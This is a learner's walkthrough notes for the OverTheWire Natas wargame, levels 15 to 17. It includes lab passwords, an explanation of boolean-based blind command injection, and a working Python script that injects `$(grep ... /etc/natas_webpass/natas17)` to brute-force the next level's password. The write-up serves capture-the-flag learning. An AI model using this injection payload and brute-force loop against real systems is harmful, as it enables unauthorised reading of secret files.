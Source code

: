 ```python
Password so far: hPkjKYviLQctEW33QmuXL6eDVfMW4s
Password so far: hPkjKYviLQctEW33QmuXL6eDVfMW4sG
Password so far: hPkjKYviLQctEW33QmuXL6eDVfMW4sGo
Complete password: hPkjKYviLQctEW33QmuXL6eDVfMW4sGo
```
- 2025-06-11: Hm, password isn't working. Need to look further into this.
- 2025-06-12: Break day
- 2025-06-13: Weird, `hPkjKYviLQctEW33QmuXL6eDVfMW4sGo` worked.

## 16->17
- http://natas16.natas.labs.overthewire.org/
- `natas17:EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC`
- https://learnhacking.io/overthewire-natas-level-16-walkthrough/
- https://samxia99.medium.com/overthewire-updated-natas-walkthrough-level-16-d3cb5b3f6c2e
- "Look for boolean true/false output to give you information about blind queries being executed."
- 2025-06-15: Break day
- 2025-06-16: Break day 2
- 2025-06-17: Picking this back up
- The trick here is to realize that we can still use `$(...)` where `...` is an inner command. This syntax is for interpolating a subshell command into a string. e.g. if we input `$(whoami)` that would interpolate into `natas16` and the command executed would be `grep -i "natas16" dictionary.txt`.
- We can use a subshell command like `$(grep n /etc/natas_webpass/natas17)` to see if `n` exists in the `natas17` password. We can add a string afterwards like `$(grep n /etc/natas_webpass/natas17)zigzag` so that if there is a match, the word would be `nzigzag`, which does not exist in `dictionary.txt` and tells us that `n` is part of the password.
- Using this blind "test", we can brute force the password. AKA **Boolean Based Blind Command Injection**
```python
import requests
from requests.auth import HTTPBasicAuth

username = 'natas16'
password = 'hPkjKYviLQctEW33QmuXL6eDVfMW4sGo'

characters = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'

out = ""
for i in range(0, 32):
    for j in characters:
        command = f"^$(grep -o ^{out+j} /etc/natas_webpass/natas17)A"
        payload = {'needle': command, 'submit': 'search'}
        result = requests.get('http://natas16.natas.labs.overthewire.org/', auth=HTTPBasicAuth(username, password), params=payload)
        str1 = result.text
        # print(str1)
        start = str1.find('<pre>\n') + len('<pre>\n')
        end = str1.find('</pre>')
        str2 = [x for x in str1[start:end].split('\n')]
        if str2[0] != "African":
            out += j
            print(out)
            break
print(out)
```
